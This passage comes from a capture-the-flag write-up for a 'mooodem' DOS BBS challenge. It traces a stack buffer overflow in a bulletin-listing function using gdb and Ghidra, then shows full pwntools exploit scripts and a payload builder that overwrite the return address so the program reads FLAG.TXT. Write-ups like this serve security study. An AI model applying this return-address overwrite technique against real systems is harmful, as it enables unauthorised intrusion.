

Crash!

I tested this multiple times and it is consistent, with 1000 bytes it always crashes.


#### Buffer Overflow

First we need to find the _List Recent Bulletins_ function:

```
real-mode-gdb$ find_in_mem "Bulletin by"
00000000
...
0001F700
Code found at 0x1F724
real-mode-gdb$ print/x 0x1F724 - 16 * 0x1eaf
$1 = 0xc34
```

and then:

```
# grep '0xc34$' bbs.objdump
    e229:	b8 34 0c             	mov    ax,0xc34
```

`0xe229`.  When I looked this up in Ghidra, it was just data, no disassembly, no decompile.  So I went back to the objdump and started to scroll up until I found the start of a function:

```
    e04b:   c3                      ret
    e04c:   56                      push   si
    e04d:   57                      push   di
    e04e:   55                      push   bp
    e04f:   89 e5                   mov    bp,sp
    e051:   81 ec 8e 01             sub    sp,0x18e
```    

The `ret` from the previous function and the three `push`es gives it away.  The `sub sp,0x18e` is also allocating a large chunk on the stack.  This is probably the buffer we are looking for.  I'd prefer to do this in Ghidra.

Going back to Ghidra I right-clicked on the `0xe04c` address and selected _Disassemble_, then right-clicked again and selected _Create Function_.  Sanity restored.



`local_106` is probably the buffer we're looking for.

Starting from line 18 I can only assume is something like `fp = fopen(...`.  Checking what is at `0xbd8` and `0xbd5` will help understand this better:

```
real-mode-gdb$ print/x 16 * 0x1eaf + 0xbd8
$3 = 0x1f6c8
real-mode-gdb$ x/1s $3
0x1f6c8:	"NOTES.TXT"
real-mode-gdb$ print/x 16 * 0x1eaf + 0xbd5
$4 = 0x1f6c5
real-mode-gdb$ print/x 1x/1s $4
0x1f6c5:	"rb"
```

Yep, its `fopen`-ish.  Assuming lines 19-23 is the error message if the open fails, and starting at line 26, the loop to read in the bytes with only EOF and a NULL to indicate end of line thus overflowing into the return address and beyond.

> If you read the code, it looks like for each field (name, date, text) `local_106` is used as just `buf`.  This does not matter.

Looking at the disassembly function header `local_106` is `0x106` bytes above the return address.



All that is left to do it figure out what to, well do...

Calling line 18 with `FLAG.TXT` seems like the obvious choice, but if you recall from way back when we looked at the floppy image `NOTES.TXT`, it is somewhat structured and the fake `FLAG.TXT` is just a single line.  Using the _Show Random Quote_ function may be a better option.  To find it and possibly other `fopen` functions from Ghidra I double-clicked on `FUN_0000_0a1d` (presumed `fopen`):



The first XREF `0xe04c` is the _List Recent Bulletins_ we just left.  `0xe4af` also opens `NOTES.TXT`, however the second arg is not `rb`, but is `ab+`:

```
real-mode-gdb$ print/x 16 * 0x1eaf + 0xcf6
$5 = 0x1f7e6
real-mode-gdb$ x/s $5
0x1f7e6:	"ab+"
```

Clearly this is the _Create New Bullentin_ function, so that leaves `0xe97c`:


Verifying this is _Show Random Quote_ by checking `0xdb5`:

```
real-mode-gdb$ print/x 16 * 0x1eaf + 0xdb5
$6 = 0x1f8a5
real-mode-gdb$ print/x 1x/s $6
0x1f8a5:	"QUOTES.TXT"
```

Yep.

```
       0000:e97c 55              PUSH       BP
       0000:e97d 89 e5           MOV        BP,SP
       0000:e97f 83 ec 08        SUB        SP,0x8
       0000:e982 b8 d5 0b        MOV        AX,0xbd5
       0000:e985 50              PUSH       AX=>DAT_0000_0bd5
       0000:e986 b8 b5 0d        MOV        AX,0xdb5
       0000:e989 50              PUSH       AX
       0000:e98a 16              PUSH       SS
       0000:e98b 1f              POP        DS
       0000:e98c e8 8e 20        CALL       FUN_0000_0a1d
```

From the disassembly it looks like we have to push pointers to `FLAG.TXT` and `rb` on the stack and then call `0xe98a` (the first instruction after the args are pushed).

The problem is that `FLAG.TXT` isn't in memory, at least not statically like all the other strings so far.

My first thought was to use the `What is your name?` buffer, assuming it does not get reused.  An other option is the stack.  I tested both.

To find _my name_ I started the simulation over and used `FLAG.TXT` as my name and then searched for it in memory:

```
real-mode-gdb$ find_in_mem "FLAG.TXT"
00000000
...
00020400
Code found at 0x20472
real-mode-gdb$ print/x 0x20472 - 16 * 0x1eaf
$1 = 0x1982
```

`1982`, _am I being trolled?  How cool is that?_  Well, not so cool.  That value didn't work and in the interest of time I'm not going to share how much time I lost on that.  Then I remembered the lesson learned when I was trying to match up the formatting string `%s` with its address--there were multiple instances of `%s`.  (BTW, I omitted my `%s` adventure because this is already too long).

Try harder:

```
real-mode-gdb$ find_in_mem "FLAG.TXT" 0x20473
00020500
00020600
00020700
Code found at 0x20710
real-mode-gdb$ print/x 0x20710 - 16 * 0x1eaf
$2 = 0x1c20
```

`0x1c20`, that will work.

To use the stack we need to find the value of the stack pointer when EIP is at `ret` for the _List Recent Bulletins_ function, to do that, just set a breakpoint:

```
real-mode-gdb$ print/x 0xf94 * 16 + 0xe4ae
$3 = 0x1ddee
real-mode-gdb$ b *$3
Breakpoint 1 at 0x1ddee
```

More math.  Recall that CS for `BBS.EXE` is `0xf94`.  Continue and then `L` to trigger:

```
real-mode-gdb$ c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
---------------------------[ STACK ]---
F0B7 0051 004C 0F58 0043 0F6E 0046 0F82
0051 0F97 FFAA 1982 0004 102C 0004 0000
1eaf:ff8c   0x2ea7c:	0xf0b7
1eaf:ff8d   0x2ea7d:	0x51f0
1eaf:ff8e   0x2ea7e:	0x0051
1eaf:ff8f   0x2ea7f:	0x4c00
```

The return address is at `0xff8c`.

Analysis complete.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

p = process('./fooodem.sh')
#p = process(['./mooodem.sh','mooodem.challenges.ooo','5000'])

_ = p.recvuntil('your name?')
p.sendline('FLAG.TXT')
_ = p.recvuntil('Selection:')
p.sendline('supersneaky2020')
_ = p.recvuntil('Selection:')
p.sendline('C')
_ = p.recvuntil('> ')

payload  = 0x106*b'A'
payload += p16(0xe98a) # quote function
#'''
payload += p16(0x1c20) # FLAG.TXT as name
payload += p16(0xbd5)  # rb
'''
payload += p16(0xff8c + 2 + 2 + 2) # return address, pointer to file, pointer to rb, then "FLAG.TXT"
payload += p16(0xbd5)
payload += b'FLAG.TXT\x00'
'''

p.sendline(payload)
p.sendline('')
_ = p.recvuntil('Selection:')
p.sendline('L')
_ = p.recvuntil(b'OOO{')
print(_.decode("unicode_escape")[-4:],end='')
_ = p.recvuntil(b'}')
print(_.decode("unicode_escape"))
```

Either exploit is selectable by moving `#`.  Both start with overflowing the buffer with `0x106` bytes, then overwriting the return address with the address in the _Show Random Quote_ function.  In the first case the pointer to `FLAG.TXT` is our _name_, whereas in the second case it's on the stack.

Running this locally outputs:

```
OOO{not the real flag}
```

and remotely:

```
OOO{AYH3Xn4qAeZDl3McORnINdiY8yaoow7bbq/DcrQv4DQ=}
```

Using `mooodem.sh` with OOO hacked up `minimodem` is cheating, so back to my original method from above:

```python
#!/usr/bin/python3

from pwn import *
import os

def getsome(filename,p,n,d):
    c = 0
    if os.path.exists(filename):
        os.remove(filename)
    f = open(filename,'wb+')
    while c < n:
        _ = p.recv(4096)
        c += len(_)
        f.write(_)
        print('.',end='')
        if d == 1:
            print(c, len(_))
    print()
    f.close()
    return

p = remote('mooodem.challenges.ooo', 5000)
r = open('in1.bin','rb').read()
p.send(r)
getsome('out1.bin',p,15282112,0)
os.system('./bin2wav out1.bin out1.wav; minimodem -r -8 -f out1.wav 1200')
```

To create `in1.bin` using the stack (second method):

```python
#!/usr/bin/python3

payload  = b''
payload += b'FLAG.TXT\nsupersneaky2020\nC\n'
payload += 0x106*b'A'
payload += p16(0xe98a) # quote function
payload += p16(0xff8c + 2 + 2 + 2) # return address, pointer to file, pointer to rb, then "FLAG.TXT"
payload += p16(0xbd5) # rb
payload += b'FLAG.TXT\x00'
payload += b'\n\nL\n'
open('payload.bin','wb').write(payload)
```

Then:

```
cat payload.bin | minimodem -t -8 -f in1.wav 1200
./wav2bin in1.wav in1.bin
```

Output:



You'll notice that the MOOODEM banner is missing, that is because the payload was being sent while the banner was being sent and nothing was catching the banner while the payload was transmitting (remember there are two modems).

Had I completed this on time, this last method is what I would have used, since that is what I had working before _pencils down_.

This was a lot of fun.

OOO, Thanks!

